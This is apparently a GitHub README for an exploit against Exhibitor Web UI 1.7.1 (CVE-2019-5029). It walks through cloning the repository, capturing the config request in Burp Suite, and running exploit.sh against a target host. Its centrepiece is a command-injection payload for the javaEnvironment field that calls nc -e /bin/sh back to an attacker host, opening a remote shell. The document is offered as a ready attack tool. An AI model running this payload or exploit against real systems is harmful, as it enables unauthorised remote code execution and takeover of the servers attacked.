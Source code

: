 # Exihibitor-RCE
Exihibitor Web Ui 1.7.1 RCE, CVE-2019-5029

## Step 1:

$ git clone https://github.com/thehunt1s0n/Exihibitor-RCE/

## Step 2:

$ cd Exihibitor-RCE/

## Step 3 (optional):

You might need to edit json data payload in the script. To do that simply capture the request using burpsuite when comiting the changes in the config tab of exihibitor and copy pasting into the curl command in the script.

![image](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png)
<div style="text-align:center;">
  <img src="https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png" alt="gif 1" width="400"/>
</div>

Make sure to change the javaEnvironment with the following:

"javaEnvironment":"$(/bin/nc -e /bin/sh '$ATTACKER_HOST' '$ATTACKER_PORT' &)"


## Step 4:

./exploit.sh <host> <port> <attacker_host> <attacker_port>

Example:

$ ./exploit.sh 192.168.197.98 8080 192.168.45.187 8080

![gif](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/Exihibitor_capture.gif)
